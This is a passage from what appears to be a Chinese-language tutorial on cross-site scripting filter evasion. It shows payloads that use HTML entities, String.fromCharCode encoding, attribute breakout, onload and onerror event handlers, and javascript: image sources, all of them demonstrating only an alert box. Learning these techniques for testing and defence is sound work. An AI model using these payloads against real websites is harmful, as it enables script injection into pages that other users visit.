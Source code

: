 **来代替我们的双引号，有时候可以绕过过滤。**

**例子:**

[code]

    <script>alert("XSS")</script>
    <script>alert(&quot;XSS&quot;)</script>
    <script>alert(&#38;XSS&#38;)</script>
[/code]



**如果这都被过滤了。那我们可以使用 JavaScript 的 fromCharCode 函数，这个函数把指定的 Unicode 值转换成字符串。**

**比如:**

[code]

    <script>alert("XSS")</script>
    <script>alert(String.fromCharCode(88,83,83))</script>
    <INPUT type="text" value='\'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>'>
[/code]



**你可以使用 Mysql 数据库的 char（字符，字符）来转换字符到字符码，大家可以使用自己喜欢的就行了。 转码的工具还是很多的。**



**绕过 <SCRIPT> 过滤**

**有些过滤器会过滤到 <script>标签，那上面的例子就都废了，但是。还是有方法插入 javascript 的。我们看看事件处理器的例子。**

[code]

    <BODY onload="alert('XSS')">
[/code]



**在 html 里啊。这个 Onload 关键字就是一个事件，其他的所有标签都没有这个属性，但是 Body 标签是 有的。但是，有一定的局限性，如果
onload 事件在你的代码之前已经被处理了。那就不会触发了。。不 过我们可以继续看看 onerror 事件处理。**

[code]

    <IMG SRC="" onerror="alert('XSS')">
[/code]

**注意看，图片没有指定，也就是出错了。Onerror 这个事件就会发茶。引发 XSS 漏洞，没有用 <script>标签哦。**  
  



**使用 IMG 源**

**Html 中最常用的两个标签 img 和 a href 一般是不会过滤的，一个指定图片，一个指定超链接。最危险的 事 img 标签。**

**下面是一些例子:**

**标准的样子：**

[code]

    <IMG SRC="javascript:alert('XSS');">
[/code]

